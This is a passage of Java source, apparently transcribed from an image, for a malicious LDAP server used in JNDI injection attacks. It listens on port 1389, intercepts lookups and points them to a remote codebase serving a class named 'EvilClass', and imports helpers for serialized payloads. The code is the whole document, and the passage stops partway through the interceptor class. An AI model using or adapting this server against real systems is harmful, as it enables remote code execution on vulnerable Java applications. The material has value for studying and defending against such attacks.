 ```java  
import com.unboundid.ldap.listener.InMemoryListenerConfig;  
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;  
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;  
import com.unboundid.ldap.sdk.Entry;  
import com.unboundid.ldap.sdk.LDAPException;  
import com.unboundid.ldap.sdk.LDAPResult;  
import com.unboundid.ldap.sdk.ResultCode;  
  
import javax.net.ServerSocketFactory;  
import javax.net.SocketFactory;  
import javax.net.ssl.SSLSocketFactory;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.net.InetAddress;  
import java.net.MalformedURLException;  
import java.net.URL;  
  
  
import static com.alter.JNDI_LDAP.util.serializeObject.getPayload;  
import static com.alter.JNDI_LDAP.util.serializeObject.serializeObject;  
  
public class Ldap {  
    private static final String LDAP_BASE = &#34;dc=example,dc=com&#34;;  
  
    public static void main(String[] argsx) {  
        String[] args = new String[]{&#34;http://127.0.0.1:8000/#EvilClass&#34;, &#34;1389&#34;};  
        int port = 0;  
        if (args.length &lt; 1 || args[0].indexOf(&#39;#&#39;) &lt; 0) {  
            System.err.println(Ldap.class.getSimpleName() &#43; &#34; &lt;codebase_url#classname&gt; [&lt;port&gt;]&#34;); //$NON-NLS-1$  
            System.exit(-1);  
        } else if (args.length &gt; 1) {  
            port = Integer.parseInt(args[1]);  
        }  
  
        try {  
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);  
            config.setListenerConfigs(new InMemoryListenerConfig(  
                    &#34;listen&#34;, //$NON-NLS-1$  
                    InetAddress.getByName(&#34;0.0.0.0&#34;), //$NON-NLS-1$  
                    port,  
                    ServerSocketFactory.getDefault(),  
                    SocketFactory.getDefault(),  
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));  
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));  
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);  
            System.out.println(&#34;Listening on 0.0.0.0:&#34; &#43; port); //$NON-NLS-1$  
            ds.startListening();  
  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
  
    private static class OperationInterceptor extends InMemoryOperationInterceptor {  
  
        private URL codebase;  
  
        /**  
         *  
         */  
        public OperationInterceptor(URL cb) {  
            this.codebase = cb;  
```